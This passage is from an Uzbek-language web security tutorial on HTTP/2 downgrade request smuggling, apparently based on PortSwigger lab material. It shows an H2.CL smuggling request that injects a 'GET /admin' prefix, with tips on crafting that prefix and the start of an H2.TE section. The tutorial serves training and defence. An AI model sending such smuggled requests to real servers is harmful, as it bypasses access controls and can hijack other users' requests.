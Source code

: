 **Frontend (HTTP/2)**

```http
        :method	POST
          :path	/example
     :authority vulnerable-website.com
   content-type application/x-www-form-urlencoded
 content-length 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1
```

**Back-end (HTTP/1)**

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H
```

{% hint style="success" %}
**Ma'slahat**

Ba'zi Request Smuggling xujumlarini amalga oshirayotganingizda, o'zingizning smuggled requestingizga foydalanuvchining requestidagi headerlarni qo'shishni xohlashingiz mumkin. Lekin ular ba'zida xujumingizga xalaqit berishi mumkin, nusxasi mavjud header xatolari va shunga o'xshash xolatlar yuzaga keladi. Yuqoridagi misolimizda buni, parametr va `Content-Length` headerini o'z ichiga olgan smuggled prefiks orqali yumashtdik. Response hajmidan bir oz uzunroq boʻlgan `Content-Length` headeridan foydalangan holda, foydalanuvchining soʻrovi sizning smuggled prefiksingizga qoʻshiladi, lekin headerlardan oldin qisqartiriladi.
{% endhint %}

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [H2.CL request smuggling ≫](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling)
{% endhint %}

### <mark style="color:yellow;">H2.TE zaifliklar</mark> <a href="#h2te-zaifliklar" id="h2te-zaifliklar"></a>

Chunked (bo'laklangan) Transfer Encoding HTTP/2 protokoli bilan bir biriga mos kelmaydi va spetsifikatsiya siz kiritmoqchi bo'lgan har qanday `Transfer-encoding: chunked` headerini olib tashlashni yoki so'rovni butunlay blokirovka qilishni tavsiya qiladi. Agar front-end server buni uddalay olmasa va keyinchalik chunked kodlashni qo'llab-quvvatlaydigan HTTP/1 back-end so'rovI uchun requestni downgrade qilsa bu request smuggling hujumlarini ham yuzaga keltirishi mumkin.
